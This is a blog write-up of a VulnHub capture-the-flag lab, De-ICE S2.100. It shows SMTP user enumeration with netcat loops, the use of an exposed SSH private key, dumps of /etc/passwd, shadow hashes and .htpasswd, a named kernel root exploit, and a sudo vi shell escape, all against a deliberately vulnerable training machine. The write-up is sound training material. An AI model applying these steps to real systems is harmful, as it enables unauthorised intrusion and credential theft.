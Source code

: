 ```yaml
---
layout: post
title: "DE-ICE-S2.100"
date: 2015-05-10 11:40:38 +0200
comments: true
categories: 
---
```

Image: [De-ICE: S2.100](https://www.vulnhub.com/entry/de-ice-s2100,13/)

Nmap output:
{% codeblock %}
PORT    STATE  SERVICE  VERSION
21/tcp  open   ftp      vsftpd 2.0.4
22/tcp  open   ssh      OpenSSH 4.3 (protocol 1.99)
25/tcp  open   smtp     Sendmail 8.13.7/8.13.7
80/tcp  open   http     Apache httpd 2.0.55 ((Unix) PHP/5.1.2)
110/tcp open   pop3     Openwall popa3d
143/tcp open   imap     UW imapd 2004.357
{% endcodeblock %}

We found out that there is another IP address on the same network:
{% codeblock %}
Nmap scan report for 192.168.2.101
Host is up (0.00038s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:53:2F:A3 (VMware)
{% endcodeblock %}

Enumerating SMTP users, we get:
{% codeblock %}
root@kali:~# for i in $(cat /usr/share/ncrack/default.usr); do echo $i; echo -e "\nehlo lol\nmail from:$i@slax.example.net\nrcpt to:$i\nquit\n" | nc 192.168.2.100 25; done  | grep -i 'Recipient ok' 
250 2.1.5 root... Recipient ok
250 2.1.5 operator... Recipient ok
250 2.1.5 manager... Recipient ok
250 2.1.5 Manager... Recipient ok
250 2.1.5 adm... Recipient ok
250 2.1.5 lp... Recipient ok
250 2.1.5 MAIL... Recipient ok
250 2.1.5 system... Recipient ok
250 2.1.5 MANAGER... Recipient ok
250 2.1.5 OPERATOR... Recipient ok
250 2.1.5 halt... Recipient ok
250 2.1.5 Root... Recipient ok
250 2.1.5 SYSTEM... Recipient ok
250 2.1.5 ftp... Recipient ok
250 2.1.5 mail... Recipient ok
250 2.1.5 toor... Recipient ok
250 2.1.5 ROOT... Recipient ok
250 2.1.5 shutdown... Recipient ok
250 2.1.5 bin... Recipient ok
250 2.1.5 POSTMASTER... Recipient ok
250 2.1.5 nobody... Recipient ok
250 2.1.5 games... Recipient ok
250 2.1.5 postmaster... Recipient ok
250 2.1.5 NEWS... Recipient ok
250 2.1.5 sync... Recipient ok
250 2.1.5 INGRES... Recipient ok
250 2.1.5 daemon... Recipient ok
250 2.1.5 uucp... Recipient ok
250 2.1.5 Operator... Recipient ok
250 2.1.5 webmaster... Recipient ok
250 2.1.5 news... Recipient ok
{% endcodeblock %}

We used CEWL to create wordlist (userlist.txt) to reveal another user accounts.
Before we use this command, it's good to check if the disk is not full for
proper SMTP functionality.
{% codeblock %}
root@kali:# for i in $(cat ~/vulnhub/DE-ICE-S2.100/userlist.txt); do echo $i; echo -e "\nehlo lol\nmail from:$i@slax.example.net\nrcpt to:$i\nquit\n" | nc 192.168.2.100 25; done  | grep -i 'Recipient ok'
250 2.1.5 havisham... Recipient ok
250 2.1.5 magwitch... Recipient ok
250 2.1.5 pirrip... Recipient ok
{% endcodeblock %}

Again, this could be automatized using smtp-user-enum script:
{% codeblock %}
root@kali:# smtp-user-enum -M RCPT -f root@slax.example.net -U userlist.txt -t 192.168.2.100
{% endcodeblock %}

Dirb found the following URLs:
{% codeblock %}
http://192.168.2.101/~havisham/
http://192.168.2.101/~magwich/
http://192.168.2.101/~pirrip/
http://192.168.2.101/~pirrip/.ssh/
{% endcodeblock %}

We download the private key of pirrip user and log in:
{% codeblock %}
-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEA1pfb/CVukUw4Xe67YLEZzVHWNax0zJjI1CfcsoEGylmmtlA6
iXHi41nLshzXu9n536JfM9LFAWGqefBVX7Bzd/fC4+jHS3q89IK9FP7gFPwEmlNH
CwPX0ADxDFyB1lJOFffJ9gVw3VgHCaCPgS70UqJD0hZFDMSDMoBa91PylFQR0m58
nMq8DsGRbeC5hTdpLXKfBuW8v/lFuNEWVWNcZDie82aiJg8WRUUIrzeGZSR3+cG1
hi6za67VIi+ce8fFuBvIgaEpvJ0JSIX7zPLUV10ezW1NQRNplKSam3TIYI3+Ywuh
lcgpEyliHYReN6v91+um2c6LNy9y/vx2Akci5QIBIwKCAQEAvhF5s3GcchBPLqA/
kCfVBk/MW2zcerM1iLWXlsoNVCOFB+Co4CMKyV4pcd8IOKsfJSlqQ9fwUa5GiUKU
wne2urbf0S1CzdMcY4m9al4W7gPJkACeAnEeO+OTq9zoBvhxDCSc79ju7+7hqXD0
IfZjXyIBjjD7VHOKJWpfMtVTMunBCMqoAMa2veuN6LgDJweQNi7kon4qcj4SghGI
bdBv/Cnk7PMkG+DhafTRWyXGMWFpTHV4BNKv0i+k4lVV1oP9nJnh9jglY4EkD9LD
0Yt2QZt+XMTlxScsjcBpVGc9m4ZrgmRZGV0PTyMuWJtURkDBYPizkiPjjSZfUbyZ
y9QECwKBgQDsR9wLzrQbJIaOX8dG4rEt8pQHdYK7KCM8Bcq45iKKPzeLxchguM3o
+y9nRz5x8RWXWZUMl7PldoqwmrKh6WVCrdJ7mghPTYx3Djhcaf8q5XFTUhZH4xhB
72g1H6+JCECUjAFfjoSTOEswCFKYssgYA22x3fvLGg3S8f0UjjE1xQKBgQDogKVg
iyXCE833evccfrd/otsyVcxNincunAtYDAsqa2ZrjXL3oFwNwfC1CVKPhqDlnG46
M1tiSeYXygPbuPbHzRdu0ZuG7jRxxVdndl52gq/Zt8MKNRD9mdbFRcRMXmMRfaE4
RXdry9eB4rPywfWgJPGNVtOFZP6PRVv+IpoqoQKBgBRArHYKZzWGybRunA1j400U
ytwRYvoZYhsWcHY/nI+Bwu65Lm6wwTE6GgGJw4Yb+olQ0kLoboFh7qFsWHRHNJCv
0DZ66sT4BLm/Y+qp/+275SRmHyq7sZ9AaASNr/XNgeDYzOru9Wu0XjdRK6awPQlf
YSyAvc+UhNeRFbFOBDfPAoGAVlurI9vpc/i6N1mO+/SNTKo0KKOGZfGZ+16H3t/m
496/pEp7KMaIl2VKxuY0m7WpedsEXsKeSRQiQ1mpqWH1QuXG4AS2HCyXIvGG3Uk5
B3JekrH3/HocQO//UJZBmLVX/y6pmI7UlcC9wodnaMuzAPfHbwL+G5qKb7qtI+D3
busCgYATj4y+8msxNWRRNbHWAV7G0OurPDeZJ8F8NDLpM22X8fM08wgGRwkW4fpa
A+J8tN2ibiDqw29W6Rc1/4evAPbo3GR932W/ELOTOpP2yquiwoSxPG+HCLHmDITr
1qGHJRSOiFzo99iS5aQRhUvdl3M0lz1Cort7hjRKUkSWcT02Rw==
-----END RSA PRIVATE KEY-----
{% endcodeblock %}

{% codeblock %}
root@kali:~# chmod 600 pirrip-rsa.ssh
root@kali:~# ssh -l pirrip 192.168.2.100 -i pirrip-rsa.ssh
Linux 2.6.16.
pirrip@slax:~$

pirrip@slax:/etc$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1:bin:/bin:
daemon:x:2:2:daemon:/sbin:
adm:x:3:4:adm:/var/log:
lp:x:4:7:lp:/var/spool/lpd:
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/:
news:x:9:13:news:/usr/lib/news:
uucp:x:10:14:uucp:/var/spool/uucppublic:
operator:x:11:0:operator:/root:/bin/bash
games:x:12:100:games:/usr/games:
ftp:x:14:50::/home/ftp:
smmsp:x:25:25:smmsp:/var/spool/clientmqueue:
mysql:x:27:27:MySQL:/var/lib/mysql:/bin/bash
rpc:x:32:32:RPC portmap user:/:/bin/false
sshd:x:33:33:sshd:/:
gdm:x:42:42:GDM:/var/state/gdm:/bin/bash
pop:x:90:90:POP:/:
nobody:x:99:99:nobody:/:
pirrip:x:1000:10:Philip Pirrip:/home/pirrip:/bin/bash
magwitch:x:1001:100:Abel Magwitch:/home/magwitch:/bin/bash
havisham:x:1002:100:Estella Havisham:/home/havisham:/bin/bash
{% endcodeblock %}

The root accound can be obtained using exploit from Kali:
{% codeblock %}
root@kali:/usr/share/exploitdb# 

  * hoagie_udp_sendmsg.c
  * LOCAL LINUX KERNEL ROOT EXPLOIT (< 2.6.19) - CVE-2009-2698
{% endcodeblock %}

{% codeblock %}
sh-3.1# cat /etc/shadow
root:$1$/Ta1Q0lT$CSY9sjWR33Re2h5ohV4MX/:13882:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
pirrip:$1$KEj04HbT$ZTn.iEtQHcLQc6MjrG/Ig/:13882:0:99999:7:::
magwitch:$1$qG7/dIbT$HtTD946DE3ITkbrCINQvJ0:13882:0:99999:7:::
havisham:$1$qbY1hmdT$sVZn89wKvmLn0wP2JnZay1:13882:0:99999:7:::

sh-3.1# cat /var/access/.htpasswd
aadams:bS.PQ9hVYEqrQ
{% endcodeblock %}

There is another way to get root account, first we find out the password for pirrip user:
{% codeblock %}
pirrip@slax:/var/spool/mail$ cat pirrip

E-Mail: pirrip@slax.example.net
Password: 0l1v3rTw1st
{% endcodeblock %}

{% codeblock %}
pirrip@slax:/var/spool/mail$ sudo -l
pirrip@slax:/var/spool/mail$ sudo vi
:!/bin/bash
{% endcodeblock %}

Finally, in /root/.save we obtain the following data:

{% codeblock %}
From sikes@slax.example.net  Sun Jan 13 23:53:37 2008
Return-Path: <sikes@slax.example.net>
Received: from slax.example.net (localhost [127.0.0.1])
        by slax.example.net (8.13.7/8.13.7) with ESMTP id m0DNlmHb009636
        for <pirrip@slax.example.net>; Sun, 13 Jan 2008 23:47:48 GMT
Received: (from sikes@slax.example.net)
        by slax.example.net (8.13.7/8.13.7/Submit) id m0DNlmDI009635
        for pirrip; Sun, 13 Jan 2008 23:47:48 GMT
From: Bill Sikes <sikes@slax.example.net>
Message-Id: <200801132347.m0DNlmDI009635@slax.example.net>
Date: Sun, 13 Jan 2008 23:47:48 +0000
To: pirrip@slax.example.net
Subject: Raises
User-Agent: nail 11.25 7/29/05
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit

Here's the data for raises for your team:
Philip Pirrip:  734-67-0424 5.5% $74,224
Abel Magwitch:  816-03-0028 4.0% $53,122
Estella Havisham: 762-93-1073 12% $84,325
{% endcodeblock %}
